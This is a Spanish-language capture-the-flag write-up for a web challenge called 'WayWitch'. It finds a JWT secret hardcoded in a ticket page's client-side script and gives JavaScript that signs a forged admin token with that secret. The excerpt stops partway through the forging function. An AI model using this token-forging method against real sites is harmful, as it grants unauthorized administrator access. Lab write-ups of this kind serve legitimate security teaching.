 # WEB

## WayWitch

Nos da simplemente una pagina que envia tickets, pense que seria xss o algo pero nel:
![Página de tickets](/images/events/Images/Pasted%20image%2020241024122624.png)

revise los scripts de la pagina y al parecer hay un script que crea el jwt y lo hace son la secret key en el mismo script.
descifrando la cookie dice user:ghesst_11133
que no nos interesa lo cambiamos a admin con la aydua de la consoal de comandos:

``` script
async function generateAdminJWT() {
    const header = {
        alg: "HS256",
        typ: "JWT",
    };

    const payload = {
        username: "admin",
        role: "admin",  // <- Aquí establecemos el rol de admin
        iat: Math.floor(Date.now() / 1000),
    };

    const secretKey = await crypto.subtle.importKey(
        "raw",
        new TextEncoder().encode("halloween-secret"),
        { name: "HMAC", hash: "SHA-256" },
        false,
        ["sign"],
    );

    const headerBase64 = btoa(JSON.stringify(header))
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
        .replace(/=+$/, "");
    const payloadBase64 = btoa(JSON.stringify(payload))
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
```